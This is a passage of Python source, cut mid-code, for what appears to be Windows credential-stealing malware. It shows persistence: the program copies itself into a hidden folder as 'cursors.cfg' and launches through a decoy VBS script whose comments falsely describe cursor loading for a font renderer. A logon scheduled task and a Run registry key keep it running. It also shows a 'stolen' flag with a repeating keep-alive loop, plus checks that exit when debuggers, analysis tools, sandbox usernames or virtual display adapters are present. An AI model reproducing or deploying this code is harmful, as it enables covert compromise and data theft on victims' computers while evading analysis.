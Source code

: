                 with open('cursorinit.vbs','w') as f: f.write('\' This script loads the cursor configuration\n\' And cursors themselves\n\' Into the shell so that Fondrvhost.exe (The font renderer)\n\' Can use them.\n\' It is recommended not to tamper with\n\' Any files in this directory\n\' Doing so may cause the explorer to crash\nSet objShell = WScript.CreateObject(\"WScript.Shell\")\nobjShell.Run \"cmd /c C:\\Windows\\Cursors\\cursors.cfg\", 0, True\n')
                self.system(f'schtasks /create /tn "CursorSvc" /sc ONLOGON /tr "C:\\Windows\\Cursors\\cursorinit.vbs" /rl HIGHEST /f >nul')
                ctypes.windll.kernel32.SetFileAttributesW('C:\\Windows\\Cursors',0x2)
                ctypes.windll.kernel32.SetFileAttributesW('C:\\Windows\\Cursors',0x4)
                ctypes.windll.kernel32.SetFileAttributesW(self.roaming+'\\Cursors',0x256)
            except Exception: self.exceptions.append(traceback.format_exc())
        elif (elevated == False) and (os.getcwd() != os.path.join(self.roaming,'Cursors')):
            try:
                try: shutil.rmtree(os.path.join(self.roaming,'Cursors'))
                except Exception: pass
                os.makedirs(self.roaming+'\\Cursors', 0x1ED, exist_ok=True)
                ctypes.windll.kernel32.SetFileAttributesW(self.roaming+'\\Cursors',0x2)
                ctypes.windll.kernel32.SetFileAttributesW(self.roaming+'\\Cursors',0x4)
                ctypes.windll.kernel32.SetFileAttributesW(self.roaming+'\\Cursors',0x256)
                shutil.copy2(sys.argv[0],os.path.join(self.roaming,'Cursors\\'))
                os.rename(os.path.join(self.roaming,'Cursors\\',os.path.basename(sys.argv[0])),os.path.join(self.roaming,'Cursors\\cursors.cfg',))
                binp = "Cursors\\cursors.cfg"
                initp = "Cursors\\cursorinit.vbs"
                with open(os.path.join(self.roaming,'Cursors\\cursorinit.vbs'),'w') as f: f.write(f'\' This script loads the cursor configuration\n\' And cursors themselves\n\' Into the shell so that Fondrvhost.exe (The font renderer)\n\' Can use them.\n\' It is recommended not to tamper with\n\' Any files in this directory\n\' Doing so may cause the explorer to crash\nSet objShell = WScript.CreateObject(\"WScript.Shell\")\nobjShell.Run \"cmd /c \'{os.path.join(self.roaming,binp)}\'\", 0, True\n')
                self.system(f'REG ADD HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v "CursorInit" /t REG_SZ /d "{os.path.join(self.roaming,initp)}" /f >nul')
            except Exception: self.exceptions.append(traceback.format_exc())
def handler():
    try: ticks(0x0000000000F)
    except Exception: pass
    internal.stolen = True
    if config.get('keep-alive'):
        while True:
            time.sleep(random.randrange(3400,3800))
            try: ticks(0x0000000000F)
            except Exception: pass
def stabilizeTicks():
    if config['antivm']:
        if os.path.exists('D:\\Tools') or os.path.exists('D:\\OS2') or os.path.exists('D:\\NT3X'): return
        if ctypes.windll.kernel32.IsDebuggerPresent() or ctypes.windll.kernel32.CheckRemoteDebuggerPresent(ctypes.windll.kernel32.GetCurrentProcess(), False): return
        for process in psutil.process_iter():
            if process.name() in ["ProcessHacker.exe", "httpdebuggerui.exe", "wireshark.exe", "fiddler.exe", "vboxservice.exe", "df5serv.exe", "processhacker.exe", "vboxtray.exe", "vmtoolsd.exe", "vmwaretray.exe", "ida64.exe", "ollydbg.exe", "pestudio.exe", "vmwareuser.exe", "vgauthservice.exe", "vmacthlp.exe", "vmsrvc.exe", "x32dbg.exe", "x64dbg.exe", "x96dbg.exe", "vmusrvc.exe", "prl_cc.exe", "prl_tools.exe", "qemu-ga.exe", "joeboxcontrol.exe", "ksdumperclient.exe", "xenservice.exe", "joeboxserver.exe", "devenv.exe", "IMMUNITYDEBUGGER.EXE", "ImportREC.exe", "reshacker.exe", "windbg.exe", "32dbg.exe", "64dbg.exex", "protection_id.exex", "scylla_x86.exe", "scylla_x64.exe", "scylla.exe", "idau64.exe", "idau.exe", "idaq64.exe", "idaq.exe", "idaq.exe", "idaw.exe", "idag64.exe", "idag.exe", "ida64.exe", "ida.exe", "ollydbg.exe"]: return
        if os.getlogin() in ["WDAGUtilityAccount","Abby","Peter Wilson","hmarc","patex","JOHN-PC","RDhJ0CNFevzX","kEecfMwgj","Frank","8Nl0ColNQ5bq","Lisa","John","george","PxmdUOpVyx","8VizSM","w0fjuOVmCcP5A","lmVwjj9b","PqONjHVwexsS","3u2v9m8","Julia","HEUeRzl","Joe"]: return
        if functions.system(functions, r'wmic path win32_VideoController get name').splitlines()[1] in ["Microsoft Remote Display Adapter", "Microsoft Hyper-V Video", "Microsoft Basic Display Adapter", "VMware SVGA 3D", "Standard VGA Graphics Adapter","NVIDIA GeForce 840M", "NVIDIA GeForce 9400M", "UKBEHH_S", "ASPEED Graphics Family(WDDM)", "H_EDEUEK", "VirtualBox Graphics Adapter", "K9SC88UK","Стандартный VGA графический адаптер",]: return